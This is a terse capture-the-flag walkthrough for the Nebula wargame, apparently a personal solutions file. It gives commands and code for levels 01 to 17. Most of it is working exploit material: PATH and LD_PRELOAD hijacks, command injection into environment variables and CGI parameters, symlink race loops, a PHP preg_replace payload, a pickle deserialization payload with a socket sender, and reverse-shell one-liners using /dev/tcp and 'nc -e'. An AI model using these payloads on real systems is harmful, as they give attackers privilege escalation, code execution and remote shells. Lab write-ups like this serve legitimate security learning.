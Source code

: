 ## Level01
* PATH=/tmp/:$PATH
* create a echo.c in /tmp
```
echo.c
#include<stdio.h>
#include<stdlib.h>

int main(){
    system("/bin/bash");
}

cc echo.c -o echo
```

## Level02
* export USER=";/bin/bash;"

## Level03
* create a `exploit.c` file (just copy from level01) in `/tmp`
* write a `run.sh` in `/home/flag03/writable.d`
```
run.sh
cc /tmp/exploit.c -o /home/flag03/exploit
chmod +s /home/flag03/exploit
```

## Level04
* ln -s /home/flag04/token /tmp/exploit
* ./flag04 /tmp/exploit

## Level05
* tar -xvzf /home/flag05/.backup/backup-19072011.tgz -C /tmp
* cd /tmp && ssh -i .ssh/id_rsa flag05@localhost

## Level06
* in `/etc/passwd` there is `flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`
* save to to a file `crack.txt`
* `john crack.txt --show`
* result: flag06:hello:993:993::/home/flag06:/bin/sh

## Level07
* cd /tmp && wget http://localhost:7007/index.cgi?Host=%3Bgetflag
* cat index.cgi?Host=;getflag 

## Level08
* read the `capture.pcap` file, follow the TCP stream
* as `7f` is `del` thus we can get the password is `backd00Rmate`

## Level09
* check the php version `php -v` is 5.3.6
* so `preg_replace` function still vulnerable to "Pattern Modifiers"
* create a `/tmp/exploit.txt`
```
/tmp/exploit.txt
[email {${system(sh)}}]
```
* `./flag05 /tmp/exploit.txt`

## Level10
* I just know that I can use ssh to connect to box using ssh
* TOCTOU (Time of check, Time of use) 
* so here we can using the `/home/flag10/flag10` to send a file to a server port `18211` 
* `flag10` will first check if the file is readable and later sent the file to server
* so we just need fast enough to switch the file fast enough
* `echo "wrong token“ > /tmp/token`
* `while true; do ln -fs /tmp/token ~/token; ln -fs /home/flag10/token ~/token; done`
* `while true; do nc -lnp 18211; done` I did this on my local kali
* `while true; do /home/flag10/flag10 ~/token <ip>`

## Level11

## Level12
* hash function `io.popen` run shell
* `tenlet 127.0.0.1 50001`
* `Password: 1;bash -i >& /dev/tcp/[reverse ip]/[reverse port] 0>&1;echo 1`

## Level13
---
* gdb ./flag13
* break just before the cmp
* set $eax=0x3e8
* then we get token b705702b-76a8-42b0-8844-3adabbe5ac58

---
* create a fake uid file
```
fakeuid.c
#include <unistd.h>
#include <sys/types.h>

#define FAKEUID 1000
uid_t getuid(void){
    return FAKEUID;
}

gcc fakeuid.c -fPIC -shared -o ~/libfakeuid.so
export LD_PRELOAD="/home/level13/libfakeuid.so"
```
* run coped flag13 in `~` directory

## Level14
* decrypt from token
* `8457c118-887c-4e40-a5a6-33a25353165`
* just try the `./flag14 -e` and recognize the difference between input and output(the ord difference)
* then `su flag14` and input that decrypted token

## Level16
* egrep injection(https://www.aldeid.com/wiki/WackoPicko/Command-Line-Injection)
* so we need inject the username

* here are some problems, as it is netcat-openbsd version so reverseshell `nc -e /bin/sh 127.0.0.1 9999` not work(and I still haven't find the solution)
* so reverse shell

* `echo "/bin/getflag > /tmp/bar" > /tmp/SHELL`
* `chmod +x /tmp/SHELL`
* x = urlencode ``/*/SHELL``

* `curl http://<ip>:1616/index.cgi?username=$x&password=foo`(curl is not installed on nebula)

## Level17
* this is `pickle.loads` injection
* `cat /tmp/foo`
```
cos
system
(S'getflag > /tmp/flag17'
tR.
```
* `nc localhost 10007 < foo`

```
exploit.py

import os
import socket

HOST = "192.168.0.192"
PORT = 10007

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((HOST, PORT))
payload = "cos\nsystem\n(S'getflag > /tmp/flag17'\ntR."
s.send(payload)
```